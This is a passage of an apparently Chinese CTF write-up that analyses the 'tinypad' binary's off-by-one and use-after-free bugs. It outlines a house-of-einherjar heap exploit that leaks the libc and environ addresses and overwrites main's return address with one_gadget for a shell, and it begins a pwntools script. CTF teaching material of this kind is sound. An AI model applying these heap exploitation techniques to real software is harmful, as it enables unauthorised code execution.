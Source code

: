 - 開頭，程序每次開頭依次判斷每個 memo 的指針來判斷是否爲空，如果不爲空，進而利用 strlen 求得其相應的長度，將 memo 的內容輸出。從這裏，我們也可以看出最多有 4 個 memo。
- 添加 memo，遍歷存儲 memo 的變量tinypad，根據 tinypad 的存儲的大小判斷 memo 是否在使用，然後還有的話，分配一個 memo。從這裏我們可以知道，程序只是從 tinypad 起始偏移16*16=256 處纔開始使用，每個 memo 存儲兩個字段，一個是該 memo 的大小，另一個是該 memo 對應的指針。所以我們可以創建一個新的結構體，並修改 ida 識別的 tinypad，使之更加可讀（但是其實 ida 沒有辦法幫忙智能識別。）。同時，由於該添加功能依賴於讀取函數，所以存在 off by one 的漏洞。此外，我們可以看出，用戶申請的 chunk 的大小最大爲 256 字節，和 tinypad 前面的未使用的 256 字節恰好一致。
- 刪除，根據存儲 memo 的大小判斷 memo 是否在被使用，同時將相應 memo 大小設置爲0，但是並沒有將指針設置爲 NULL，有可能會導致 Use After Free。**即在程序開頭時，就有可能輸出一些相關的內容，這其實就是我們泄漏一些基地址的基礎**。
- 編輯。在編輯時，程序首先根據之前存儲的 memo 的內容將其拷貝到 tinypad 的前 256 個字節中，但正如我們之前所說的，當 memo 存儲了 256 個字節時，就會存在 off by one漏洞。與此同時，程序利用 strlen 判斷複製之後的 tinypad 的內容長度，並將其輸出。之後程序繼續利用 strlen 求得 memo 的長度，並讀取指定長度內容到 tinypad 中，根據讀取函數，這裏必然出現了 `\x00`。最後程序將讀取到 tinypad 前 256 字節的內容放到對應 memo 中。
- 退出

### 利用

基本利用思路如下

1. 利用刪除時沒有將指針置爲NULL的 UAF 漏洞，泄漏堆的基地址
2. 再次利用 UAF 漏洞泄漏 libc 的基地址。
3. 利用 house of einherjar 方法在 tinypad 的前 256 字節中僞造 chunk。當我們再次申請時，那麼就可以控制4個 memo 的指針和內容了。
4. 這裏雖然我們的第一想法可能是直接覆蓋 malloc_hook 爲 one_gadget 地址，但是，由於當編輯時，程序是利用 strlen 來判讀可以讀取多少長度，而 malloc_hook 則在初始時爲 0。所以我們直接覆蓋，所以這裏採用其他方法，即修改程序的 main 函數的返回地址爲 one_gadget，之所以可以行得通，是因爲返回地址往往是 7f 開頭的，長度足夠長，可以覆蓋爲one_gadget。所以我們還是需要泄漏 main 函數的返回地址，由於 libc 中存儲了 main 函數 environ 指針的地址，所以我們可以先泄露出environ 的地址，然後在得知存儲 main 函數的返回地址的地址。這裏選取 environ 符號是因爲 environ 符號在 libc 中會導出，而像 argc 和 argv 則不會導出，相對來說會比較麻煩一點。
5. 最後修改 main 函數的返回地址爲 one_gadget 地址獲取shell。

具體利用腳本如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
tinypad = ELF("./tinypad")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
    libc = ELF('./libc.so.6')
else:
    p = process("./tinypad")
    libc = ELF('./libc.so.6')
    main_arena_offset = 0x3c4b20
log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
```